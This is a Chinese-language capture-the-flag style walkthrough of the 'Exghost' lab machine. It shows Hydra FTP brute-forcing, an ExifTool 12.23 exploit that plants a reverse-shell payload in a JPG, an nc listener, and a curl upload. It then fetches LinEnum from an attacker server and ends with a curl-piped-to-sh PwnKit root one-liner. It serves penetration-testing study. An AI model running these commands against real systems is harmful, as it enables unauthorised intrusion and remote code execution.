 ```yaml
---
description: Easy - Linux：ExifTool 12.23
---
```


# ✔️ Exghost

## 建立立足点

### 信息枚举

使用Nmap对目标进行开放端口扫描，获得2个开放端口：

<figure><img src="../.gitbook/assets/1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

首先对80端口的Web网页进行检查，无收获：

<figure><img src="../.gitbook/assets/2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后尝试以Anonymous身份登录FTP服务，也没有收获。因此，尝试使用暴力破解，获得登录凭证：<mark style="color:red;">**user:system**</mark>

```bash
// 用Hydra对目标FTP进行暴力破解尝试
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.160.183 -V
```

<figure><img src="../.gitbook/assets/3 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

登录FTP后获取到一个backup文件，将它下载到kali本地后，发现它是一个PCAP文件，用Wireshark打开并查看其HTTP流相关数据包：

{% hint style="info" %}
本例中关于目标FTP服务开启了被动模式，因此登录后并不能下载目标文件，需要关闭这个被动模式，才能成功下载。

<img src="../.gitbook/assets/6 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

```bash
// 登录FTP后，直接输入：
passive
```
{% endhint %}

<figure><img src="../.gitbook/assets/5 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
// FTP服务中：
get backup
// Kali本机中，检查该文件的属性：
file backup
```

### 漏洞查找

使用Wireshark打开backup文件后，过滤HTTP数据包，发现了：

* <mark style="color:red;">**/exiftest.php**</mark>：一个上传图片的路径
* 已成功上传了一个testme.jpg的图片
* 使用的是<mark style="color:red;">**ExifTool**</mark>，其版本号为：<mark style="color:red;">**12.23**</mark>

<figure><img src="../.gitbook/assets/7 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

尝试查找ExifTool 12.23的公开已知漏洞，发现确实有一个任意代码执行的漏洞，将其下载后发现是一个用于将反弹shell的payload写入一个jpg文件的脚本：

```bash
searchsploit exiftool 12.23
```

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```
// 将利用脚本下载到Kali本地：
searchsploit -m 50911.py .
// 查看其使用方法：
python3 50911.py -h
// 制作payload，得到名为image.jpg的图片文件:
python3 50911.py -s 192.168.45.200 4444
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

首先在Kali本机监听与payload对应的端口：4444

```bash
// Kali本机：
nc -lvnp 4444
```

然后将制作好的payload（image.jpg）上传到目标，等待反弹回来的shell：

```bash
// 在payload所在的文件夹
curl -v -F myFile=@image.jpg http://192.168.160.183/exiftest.php
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

成功获得反弹shell，并查找到local.txt文件：

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息收集

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

当手动枚举无明确收获时，可使用工具进行枚举，如：

* LinEnum.sh
* LinPEAS.sh

本例使用LinEnum.sh，在Kali本机开启一个简易的服务器，将脚本传到目标上，直接运行该脚本：

```bash
// Kali本机：
python3 -m http.server
// 目标主机：
curl http://192.168.45.220:8000/LinEnum.sh -o linenum.sh
chmod +x linenum.sh
./linenum.sh
```

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

本例中，我是直接尝试搜索目标系统内核版本的相关漏洞，发现有可能可以尝试利用的脚本，所以直接root了。个人感觉LinPEAS.sh相较于LinEnum.sh来说更详细和高效，推荐用LinPEAS.sh来进行本地信息枚举。

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

找到本例中的目标系统易受内核漏洞CVE-2021-4034的攻击，同时找到其GitHub上的可利用脚本<mark style="color:red;">**PwnKit.sh**</mark>&#x20;

{% hint style="info" %}
MEMO.

* [https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)
* [https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------](https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------)
{% endhint %}

### ROOT

开箱即用，一键root：

```bash
sh -c "$(curl -fsSL http://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
